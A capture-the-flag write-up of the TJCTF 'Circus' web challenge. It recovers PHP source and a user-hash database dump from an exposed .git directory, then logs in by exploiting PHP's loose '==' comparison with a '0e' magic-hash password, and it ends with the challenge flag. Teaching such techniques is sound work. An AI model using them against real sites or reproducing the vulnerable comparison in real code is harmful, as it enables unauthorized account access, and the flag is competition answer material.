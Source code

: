 # Circus

Category: Web

> They called me a clown for using PHP, but little did they know I used military-grade SHA256! I'll bet you can't even login to a single account!
>
> Brute force is NOT required
>
> http://circus.tjctf.org/

PHP + hashing reminds me of [magic hashes](https://www.whitehatsec.com/blog/magic-hashes/). I tried a few [SHA256 magic hashes](https://github.com/spaze/hashes/blob/master/sha256.md) on the login page, but it kept saying "invalid credentials". Running dirb on the site provided a major breakthrough:

```shell
▶ dirb https://circus.tjctf.org

---- Scanning URL: https://circus.tjctf.org/ ----
+ https://circus.tjctf.org/.git/HEAD (CODE:500|SIZE:579)
```

The exposed .git directory allows us to access the source code, as well as the history of the project. I used [Git Dumper](https://github.com/arthaud/git-dumper) to download the reconstruct a git repository.

Relevant parts of `index.php`

```php
<?php
$mysqli = new mysqli(NULL, NULL, NULL, "circus");
$stmt = $mysqli->prepare("SELECT * FROM users WHERE username = ?");
$stmt->bind_param("s", $username);
$stmt->execute();
$res = $stmt->get_result();
if ($res->num_rows === 0)
{
        $error = "Invalid credentials";
}
else
{
        $row = $res->fetch_assoc();
        if (hash('sha256', $password) == $row["password"])
        {
            // Show flag
        }
}
?>

```

The "Invalid credentials" error was due to the username not being in the database. I then tried using wfuzz to guess valid usernames, but to no avail. I realized that the git repository has not revealed all its secrets.

```
commit 4879af041fba89b387e751a94bfe5dbee4bd7528 (HEAD -> master)
Author: kfb <kfb@circus.tjctf.org>
Date:   Mon Mar 23 09:04:00 2020 -0700

    oops

commit e2731f0ea54feb0a892fd5377a932053bb3baf61
Author: kfb <kfb@circus.tjctf.org>
Date:   Mon Mar 23 09:02:34 2020 -0700

    Initial commit

```

There was another commit before HEAD. 

```
▶ ls
backup.sh  backups  css  img  index.php  js  lib  logout.php
```

Yay a backups folder. The backups folder contained a database dump.

```sql
INSERT INTO `users` VALUES (1,'Forappou1936','0f8669b02353a43e11faa0d7cfd23045d594a1d643010eec222b8d92f1d678a4','Cesar','Penniman'),(2,'Mighte','cd828420a657e5c992cb0d6eefb19083bf352d16c30be33c453672a37d43d317','Patricia','Davis'),(3,'Forianst1945','cc6e171d481acaa87d8d5984f011af38113747efe01440c20e3a714e25ce6632','John','Massey'),(4,'Coughtly','2c8167237444737a09363443f32e04254ecd6308b9c0c4a7df24e6cf566309e5','David','Stalling'),(5,'Stralf','4d4c9fbdb276b6cf05800a7006afb011ab8957fb184f5a3156dd8c01868849f5','Derek','Nadeau'),
....
```

We can now execute our attack! Grepping password hashes starting with `0e` yields a few candidates.

```
(931,'Daysim','0e00947da9a20f712b29a4d09d202561365a3ce0c201374ee5cb2f27ecf4b663','James','Baumann')
(773,'Andon1956','0e75759761935916943951971647195794671357976597614357959761597165','Rosie','Kelly')
(679,'Ancel1950','0e9c2dcd9b5ee48cef19b1f6b51296803ed1b4de65eceb106810068b153c123c','Angel','Barnum')
(628,'Humothisent','0eda68663eb36c99dd5a081bdb936e743555f12ef5dad5ed5bc7adb65e4cc388','Margaret','Moore')
```

But the attack only works on hashes where all the characters after `0e` are numbers because PHP interprets that as 0^<stuff after 0e> = 0. This means `Andon1956` is our lucky account to be hacked! 

```
Username: Andon1956
Password: TyNOQHUS
```

The password hashes to `0e66298694359207596086558843543959518835691168370379069085300385` which also evaluates to 0 in PHP.

Yay we have logged in!

Flag: `tjctf{juggl1n9_cl0wn_up_in_th3_b4ck}`


